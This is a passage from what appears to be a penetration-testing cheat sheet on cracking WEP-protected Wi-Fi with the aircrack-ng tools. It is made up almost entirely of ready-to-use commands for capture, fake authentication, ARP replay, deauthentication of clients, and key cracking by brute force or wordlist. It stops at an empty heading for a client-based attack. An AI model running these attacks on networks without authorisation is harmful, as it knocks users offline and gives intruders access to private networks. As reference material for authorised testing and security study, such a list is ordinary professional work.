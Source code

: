 #### ATTACK

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# ARP replay attack
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# Crack 
aircrack-ng <CAPTURE_NAME>
```

#### If crack doesn't work

##### Fudge factor

The fudge factor tells Aircrack-ng how broadly to brute force key spaces. The larger the fudge factor, the more possibilities Aircrack-ng will try to brute force. Try to increase it like so :

```
aircrack-ng -f <FUDGE> <CAPTURE_NAME> 
```

##### Dictionnary attack

```
aircrack-ng -w <PASSWORDS_WORDLIST> <CAPTURE_NAME> 
```

### Cracking WEP via a Client

You may be asking yourself why you would want to leverage a wireless client instead of the AP. There are multiple reasons for doing so, a few of which are :

- Some APs max out at 130k unique IVs
- Some APs impose client-to-client controls
- MAC address access controls
- APs that eliminate weak IVs
- You can’t successfully do a fake authentication to the AP
- You are within range of the client but not the AP itself

#### ATTACK
